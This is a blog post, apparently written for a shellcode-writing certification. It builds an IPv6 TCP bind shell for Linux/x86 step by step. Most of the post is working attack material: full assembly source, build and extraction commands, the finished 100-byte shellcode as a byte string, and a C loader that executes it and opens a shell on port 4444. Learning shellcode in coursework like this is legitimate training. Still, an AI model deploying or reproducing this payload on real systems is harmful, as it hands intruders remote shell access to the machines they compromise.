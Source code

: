 ```yaml
---
layout: post
title: SHELL_BIND_TCP_IPV6 – LINUX/X86
excerpt_separator: <!--more-->
---
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification
* Student ID: SLAE-1233
* Assignment: 1
* Github: [Kartik Durg](https://github.com/kartikdurg)
<!--more-->

___

The objective of this assignment is to create a Shell_bind_TCP in Linux/x86 Assembly for which, port number should be easily configurable.

To solve this challenge I found following resources very help full:

1. [Syscalls](http://syscalls.kernelgrok.com/)
2. [UAPI/in.h](https://elixir.bootlin.com/linux/latest/source/include/uapi/linux/in.h)
3. [Socket_Services](https://www.3dbrew.org/wiki/Socket_Services)
4. [The IPv6 sock addr structure](http://osr600doc.xinuos.com/en/SDK_netapi/sockC.TheIPv6sockaddrstructure.html)
5. [inet6_proto](http://www.qnx.com/developers/docs/6.5.0/index.jsp?topic=%2Fcom.qnx.doc.neutrino_lib_ref%2Fi%2Finet6_proto.html)

Before going further, I would like to point out few basic rules a shellcode should obey:

* Null free!!
* A shellcode should be as small as possible because, you may never know the size of memory inside which the shellcode will be inject.
* Register aware – clean up the registers before using them, so that you can reuse those registers and save few bytes to achieve small size shellcode.
* Also, no long jumps.

Here is how a `Shell_bind_TCP` for `IPV6` looks like in C:
___
![Shell_bind_TCP_IPV6](/media/1-tcp-bind-shell-1.jpg)

___

A quick breakdown of above shell developed in C:

* Create socket
* Bind socket to a local port
* Listen for incoming connections
* Accept incoming connection
* Redirect `STDIN`,`STDOUT` and `STDERR` to newly created socket from client.
* Spawn the shell.

Now lets create all the above socket programming module’s in `assembly` by making use of `syscalls`. To achieve this, we need to make use of three registers:

* `0x66` is the number of `socketcall()` as defined in the linux headers.This number should be stored in `EAX` register.
* `/usr/include/linux/net.h` contains the call id of socket functions. Store the call id of a socket that you want to use inside the `EBX` register. ( I will be using SYS_BIND, SYS_LISTEN and SYS_ACCEPT )
* `ECX` should contain pointer to the arguments.

___
![Shell_bind_TCP_IPV6](/media/1-tcp-bind-shell-2.jpg)

___

Now that we are aware of basic rules, registers and socket calls to be used for writing our shellcode, lets jump into the assembly:

```
global _start
section .text

_start:
;IPV6 socket creation 
;int socketcall(int call, unsigned long *args);
;sockfd = socket(int socket_family, int socket_type, int protocol);
push byte 0x66              ;socketcall()
pop eax                     ;EAX=0x2

xor ebx,ebx                 ; zero out ebx

push 0x6                    ; IPPROTO_TCP=6
push 0x1                    ; socket_type=SOCK_STREAM (0x1)
push 0xa                    ; AF_INET6
inc ebx                     ; Define SYS_socket = 1
mov ecx,esp                 ; save pointer (ESP) to socket() args (ECX)
int 0x80
xchg esi,eax                ; socfd stored in esi
xor eax,eax

 ;Bind
;int socketcall(int call, unsigned long *args);
;bind(host_sockfd, (struct sockaddr*) &host_addr, sizeof(host_addr)); 
push DWORD eax              ;x4 dword ipv6 loopback  | EAX contains 0
push DWORD eax
push DWORD eax
push DWORD eax
push eax                    ;sin6_addr = in6addr_any | in6addr_any=::
push WORD 0x5c11            ;sin6_port=4444 | 0x5c11 | Configurable |
push WORD 0x0a              ;AF_INET6
mov ecx,esp                 ;ECX holds pointer to struct sockaddr_in6
push byte 0x1c              ;sizeof(sockaddr_in6) | sockaddr_in6 = 28
push ecx                    ;pointer to host_sockfd
push esi                    ;host_sockfd
mov ecx,esp                 ;ECX points to args
inc ebx                     ;EBX = 0x2 | #define SYS_BIND 2
push byte 0x66              ;socketcall()
pop eax
int 80h

;Listen
;int socketcall(int call, unsigned long *args);
;int listen(int host_sockfd, int backlog);
push ebx                    ;EBX=2 | backlog=2
push esi                    ;poiter to host_sockfd
mov ecx,esp                 ;ECX points to args
inc ebx
inc ebx                     ;EBX = 0x4| #define SYS_LISTEN 4
push byte 0x66              ;socketcall()
pop eax
int 80h

;Accept
;int socketcall(int call, unsigned long *args);
;accept(int sockfd, NULL, NULL);
cdq                         ;EDX = 0x0 | Saves a byte
push edx                    ;Push NULL
push edx                    ;Push NULL
push esi                    ;Push host_sockfd
mov ecx,esp                 ;ECX points to args
inc ebx                     ;EBX = 0x5 | #define SYS_ACCEPT 5
push byte 0x66              ;socketcall()
pop eax
int 80h

xchg ebx,eax                ;save client_sockfd

push byte 0x2               ;push 0x2 on stack
pop ecx                     ;ECX = 2

;dup2() to redirect stdin(0), stdout(1) and stderr(2)
loop:
push byte 0x3f              ;dup2()
pop eax                     ;EAX = 0x3f
int 0x80                    ;exec sys_dup2
dec ecx                     ;decrement counter
jns loop                    ;if SF not set ==> keep jumping

;execve(/bin//sh)
xor ecx,ecx                 ;clear ECX
push ecx                    ;Push NULL
push byte 0x0b              ;execve() sys call number
pop eax                     ;EAX=0x2 | execve()
push 0x68732f2f             ;(1)/bin//sh
push 0x6e69622f             ;(2)/bin//sh
mov ebx,esp                 ;EBX pointing to "/bin//sh"
int 0x80                    ;Calling Interrupt for sys call
```

As you can see, we have `EAX: 0x66 , EBX: 0x1, ECX:{10,1,0}` that will issue a socketcall of type `SYS_SOCKET`. Similarly `0x2` for `SYS_BIND`, `0x4` for `SYS_LISTEN` and `0x5` for `SYS_ACCEPT`.

Moving further to next instruction, `IPPROTO_TCP` is defined by using push `0x6`, `SOCK_STREAM` by using push `0x1` and `AF_INET6` by using push `0xa`. I have used `IPPROTO_TCP` because it supports both `AF_INET` and `AF_INET6` sockets.

___
![Shell_bind_TCP_IPV6](/media/1-tcp-bind-shell-3.jpg)

___

Before calling `bind()`, you can notice that `sin6_addr` is set to `0` by using push `DWORD EAX` and then setting up `::1(localhost)`, port `4444` as below:

* PUSH `EAX`
* PUSH `0x5c11 (Configurable)`

### COMPILING AND CONNECTING TO SHELLCODE:

```
==> nasm -f elf32 -o shell_bind_tcp_ipv6.o shell_bind_tcp_ipv6.asm
==> ld -o shell_bind_tcp_ipv6 shell_bind_tcp_ipv6.o
==> lsof | grep 2863 | grep -i listen
# Connect to 127.0.0.1:4444
==> nc -nv 127.0.0.1 4444
```

___
![Shell_bind_TCP_IPV6](/media/1-tcp-bind-shell-4.jpg)

___


### EXTRACTING THE SHELLCODE:
```
objdump -d shell_bind_tcp_ipv6.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x6a\x66\x58\x31\xdb\x6a\x06\x6a\x01\x6a\x0a\x43\x89\xe1\xcd\x80\x96\x31\xc0\x50\x50\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x53\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x99\x52\x52\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x93\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc9\x51\x6a\x0b\x58\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```

### SHELLCODE IN C:
```
#include<stdio.h>

unsigned char shellcode[] = \
"\x6a\x66\x58\x31\xdb\x6a\x06\x6a\x01\x6a\x0a\x43\x89\xe1\xcd\x80\x96\x31\xc0\x50\x50\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x53\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x99\x52\x52\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x93\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc9\x51\x6a\x0b\x58\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

main()
{
printf("Shellcode Length: %d\n", sizeof(shellcode) - 1);
int (*ret)() = (int(*)())shellcode;
ret();
}
```

### TESTING THE FINAL SHELLCODE:
___
![Shell_bind_TCP_IPV6](/media/1-tcp-bind-shell-5.jpg)

___

Objectives achieved:

* Shellcode is null free.
* Only 100 bytes in size.
* Port can be easily configured. ( To configure the port, check the “Configurable” comment in assembly code.)
* Register independent

Exploit-DB: [https://www.exploit-db.com/exploits/45080](https://www.exploit-db.com/exploits/45080)

Link to C-code:
[shell_bind_tcp_ipv6.c](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x1/shell_bind_tcp_ipv6.c)

Link to Shellcode.ASM:
[shell_bind_tcp_ipv6.asm](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x1/shell_bind_tcp_ipv6.asm)

Link to Shellcode.c:
[shell_bind_tcp_ipv6_final.c](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x1/shell_bind_tcp_ipv6_final.c)

Thank you for reading 🙂

– Kartik Durg
